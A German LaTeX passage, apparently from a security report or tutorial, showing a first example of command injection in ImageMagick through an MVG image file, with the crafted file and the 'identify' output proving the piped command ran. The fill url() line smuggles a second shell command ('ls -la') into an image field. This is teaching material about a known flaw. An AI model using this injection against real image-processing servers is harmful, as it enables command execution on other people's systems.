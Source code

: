 \newpage
\subsection{Erstes Beispiel: Ausgabe der Dateien im aktuellen Ordner}\label{subsec:erstes-beispiel:-ausgabe-der-dateien-im-aktuellen-ordner}

Es wird eine MVG Datei erstellt und folgend befüllt.

\vspace{5mm}

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei erstellen,label={lst:lstlisting}]
> vim test1.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}


Besonders wichtig ist hier Zeile vier.
In der url() Methode, wird per Pipe ein zweiter Befehl, nämlich ls -la mitgegeben,
welcher die Dateien des aktuellen Verzeichnis auflistet.\\


Per identify wird nun im Namen des aktuell angemeldeten Users folgende Ausgabe erzeugt:

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei identify,label={lst:lstlisting}]
> identify test1.mvg
total 16
drwxr-xr-x 2 root root 4096 Dec 16 08:21 .
drwx------ 8 root root 4096 Dec 16 08:20 ..
-rw-r--r-- 1 root root  144 Dec 16 08:21 test1.mvg
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
test1.mvg MVG 640x480 640x480+0+0 16-bit sRGB 144B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
\end{lstlisting}
\vspace{5mm}


⇒ Das eigentliche identifizieren des Bildes schlägt zwar fehl, es kann aber gut gesehen werden,
dass vorher im Hintergrund der hinterlegte Command ausgeführt wird.

